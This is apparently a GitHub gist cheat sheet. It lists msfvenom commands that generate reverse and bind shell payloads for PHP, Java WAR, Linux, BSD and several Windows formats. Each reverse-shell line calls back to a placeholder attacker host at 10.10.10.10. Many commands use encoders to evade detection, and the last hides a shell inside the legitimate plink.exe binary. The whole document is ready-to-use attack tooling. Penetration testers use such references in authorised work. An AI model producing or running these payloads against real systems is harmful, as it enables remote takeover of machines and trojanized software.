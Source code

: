 
### PHP reverse shell

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#java-war-reverse-shell)Java WAR reverse shell

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-bind-shell)Linux bind shell

`msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-freebsd-reverse-shell)Linux FreeBSD reverse shell

`msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-c-reverse-shell)Linux C reverse shell

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-non-staged-reverse-shell)Windows non staged reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-staged-meterpreter-reverse-shell)Windows Staged (Meterpreter) reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-python-reverse-shell)Windows Python reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-asp-reverse-shell)Windows ASP reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-aspx-reverse-shell)Windows ASPX reverse shell

`msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-javascript-reverse-shell-with-nops)Windows JavaScript reverse shell with nops

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-powershell-reverse-shell)Windows Powershell reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-reverse-shell-excluding-bad-characters)Windows reverse shell excluding bad characters

`msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-x64-bit-reverse-shell)Windows x64 bit reverse shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-reverse-shell-embedded-into-plink)Windows reverse shell embedded into plink

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`
